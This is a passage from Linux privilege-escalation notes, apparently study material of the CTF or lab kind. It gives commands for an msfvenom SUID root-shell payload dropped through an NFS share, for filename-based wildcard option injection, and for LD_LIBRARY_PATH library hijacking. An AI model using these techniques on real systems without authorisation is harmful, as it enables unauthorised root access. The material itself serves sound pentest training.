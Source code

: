 - Using the root user on your local machine, generate a payload and save it to the mounted share

		msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o
		/tmp/nfs/shell.elf

- Make sure the file has the SUID bit set, and is executable by everyone

		chmod +xs /tmp/nfs/shell.elf

- On the target machine, execute the file to get a root shell

		/tmp/shell.elf
		bash-4.1# id
		uid=1000(user) gid=1000(user) euid=0(root) egid=0(root)

## WILDCARDS
When a wildcard character (*) is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard. This process replaces the wildcard with a space-separated list of the file and directory names in the current  directory.

An easy way to see this in action is to run the following command from your home directory:

	echo *

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names.

- The following commands should show how this works

		ls *
		% touch ./-l
		ls *

## EXPLOIT LD_LIBRARY_PATH OPTION
The `LD_LIBRARY_PATH` environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program

	ldd /usr/sbin/apache2

- Run ldd against the apache2 program file

		ldd /usr/sbin/apache2
		linux-vdso.so.1 =	(0x00007fff063ff000)
		...
		libcrypt.so.1 =	/lib/libcrypt.so.1 (0x00007f7d4199d000)
		libdl.so.2 =	/lib/libdl.so.2 (0x00007f7d41798000)
		libexpat.so.1 =	/usr/lib/libexpat.so.1 (0x00007f7d41570000)
		/lib64/ld-linux-x86-64.so.2 (0x00007f7d42e84000)

	Hijacking shared objects using this method is hit or miss. Choose one from the list and try it (`libcrypt.so.1` seems to work well).

By creating a shared library with the same name as one used by a program, and setting `LD_LIBRARY_PATH` to its parent directory, the program will load our shared library instead.
